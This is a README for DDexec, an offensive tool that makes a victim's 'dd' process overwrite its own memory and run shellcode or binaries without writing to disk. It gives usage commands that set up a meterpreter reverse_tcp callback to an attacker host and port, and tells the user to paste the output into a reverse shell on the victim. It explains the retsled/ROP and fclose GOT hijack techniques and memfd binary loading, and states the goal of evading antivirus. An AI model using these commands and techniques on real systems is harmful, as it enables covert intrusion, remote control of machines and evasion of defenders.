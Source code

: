 # DDexec

## Installation
```bash
sudo apt-get update
sudo apt-get install readelf objdump xclip -y # xclip is optional but recommended 
sudo pip3 install ROPGadget
```

## Execution
First of all you need to to **download some files from the victim system**:
- **Dowload the `dd` binary**. Find it with `command -v dd`. This is required.
- **Download the libc library**. Find it with `ldd $(command -v dd) | grep libc | cut -d' ' -f3`. *This is required with mode "retsled"*.
- Get the **output** of `uname -m`

*Note that in the **STDOUT is only going to be printed the commands to execute in the victim machine**. Banner, information and logs are printed in STDERR.*

Then execute `DDexec.sh` with `xclip` and the **clipboard will be populated** with the command line you need to run in the victim system.
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -H 127.0.0.1 -P 4444 -p linux/x64/meterpreter/reverse_tcp | xclip -selection clipboard
```
**Paste the clipboard in the reverse-shell of the victim and the shellcode/binary will be run.**
*To run a binary you need to use the argument `-b`. Please, read the **Binary Load** section to learn how*

## Help
```
Use this program to execute shellcodes and binaries in memory.
Arguments:
    -h Print this help
    -d Path to the victim dd binary (you should download it from the victim). Find it with 'command -v dd' Required.
    -l Path to the victim libc (you should download it from the victim). Find it with 'ldd `command -v dd` | grep libc | cut -d' ' -f3'. Required with mode "retsled".
    -H LHOST to receive the meterpreter
    -P LPORT to receive the meterpreter.
    -p Metasploit payload (by default linux/x64/meterpreter/reverse_tcp)
    -a Architecture of the victim system. Get it with 'uname -m'. Required.
    -m Mode of memory load. By default fclose_got if dd binary not protected with full relro, if protected, retsled is forced.
    -s Shellcode to execute in hex "4831c0b002...". If msfvenom params are given, msfvenom will create a shellcode. By default a shellcode that echoes "Pwnd!" is used.
    -b Binary to load in memory. It has to be either statically linked or use the same dynamic libs as on a target machine.

e.g.: DDexec.sh -d /path/to/dd [-l /path/to/libc] -P 4444 -H 10.10.10.10 -a x86_64 [-m <fclose_got,retsled> (default fclose_got)] [-s <shellcode_hex>]
```

## Explanation
DDexec is a technique to **load arbitrary shellcodes and binaries in memory from a shell** in a linux system without needing to write anything into disk.

This can help you **avoid AVs and protections** (*like a filesystem mounted as Read Only*).

Basically, this program will prepare a cmd line that will make **`dd` overwrite itself during execution in memory and execute a defined shellcode or a different binary.**

Therefore, what the prepared cmd line is going to do is to use **`dd` to write a shellcode its own memory (via */proc/self/mem*) and then get control the RIP of the dd process to execute the shellcode**.

In order to control the RIP **2 techniques** are implemented in `DDexec.sh`:

### Retsled
**This technique was defined and developed by [Arget](https://google.com) TODO: Put arget github**

This technique uses a retsled to overwrite an important part of the stack of the proccess with the goal of overwritting a RIP address inside the stack with a series of RET. At the end of the retsled a ROP chain is located, so once the RIP is controled by a RET instruction of the retsled the execution will arrive to the ROP chain.

This ROP chain will read the shellcode usnig the `read()` function from `libc` and write it in `0x0000555555554000`.

*This technique generates a **bigger cmd line** than then next technique, maily because of the retsled, but **works with any `dd`**. It's the default teachnique when the dd binary is protected with full relro*

### fclose GOT
Based on the technique described in https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md this technique **writes the shellcode in the GOT** of the last function executed by `dd` before exiting: **`fclose`**. Therefore, when **`fclose` is executed, the shellcode will be executed instead**.

*This technique **won't work if the `dd` binary is protected with full relro** because then the GOT table isn't writable*


*Both techniques are possible because the **ASLR is disabled** when executing `dd` using `setarch`.*

### Binary load
This technique was taken from **https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.mdaslr**.

In orer to **load a binary inside dd and execute it** the following steps are performed:
- Use a shellcode which will create a memfd file in a memory. This is done using the system call *memfd_create()* which creates an anonymous file and returns a file descriptor that refers to it. The file **behaves like a regular file. However, it lives in RAM** and is automatically released when all references to it are dropped.
- Inject the shellcode into a `dd` process (using one of the 2 previous techniques)
- 'suspend' the dd process (also done by the shellcode). Then, the memfd won't be deleted as long as the `dd` process is running.
- Write the binary to be executed inside the memfd file, and execute it.

To perform this steps with `DDexec.sh` you need to **indicate with the `-b` argument the path to the binary** you want to load in memory:
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -b /path/to/bin | xclip -selection clipboard
```
Then, **execute the new cmd line of the clipboard inside the target system**.
This will generate a new `dd` process which will have created and **exposed a memfd file** and suspended its execution (so it doesn't die).
You can see the new memf file exposed running:
```bash
ls -l /proc/$(pidof dd)/fd/
total 0
lrwx------ 1 kali kali 64 Dec 27 12:22 0 -> '/memfd:AAAA (deleted)'
lrwx------ 1 kali kali 64 Dec 27 12:25 2 -> /dev/pts/4
```
Notice how one of the file descriptors is **`memfd` aparently "deleted"**. Note how the fd is `0` (in this example).

Then, to **load the binary in memory** you just need to **write it in this file**. For that purpose `DDexec.sh` will have echoed **a cmd line prepared to decode the base64 of the binary and write it in the file descriptor** (*change the fd index of the cmd line if necessary*).

Just execute that cmd line in the target system. It will look like this:
```bash
# Change the fd number if necesSary
echo 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAYGEAAAAAAABAAAAAAAAAAGg3AgAAAAAAAAAAAEAAOAALAEAAHgAdA...' | base64 -d > /proc/\$(pidof dd)/fd/0
```

Once you have executed this cmd line, you will have **loaded the binary in memory in that memfd**. So you can just execute it as a normal binary:
```bash
# Doing this you will be executing the loaded binary
## Change the fd number if neceSsary
/proc/\$(pidof dd)/fd/0
```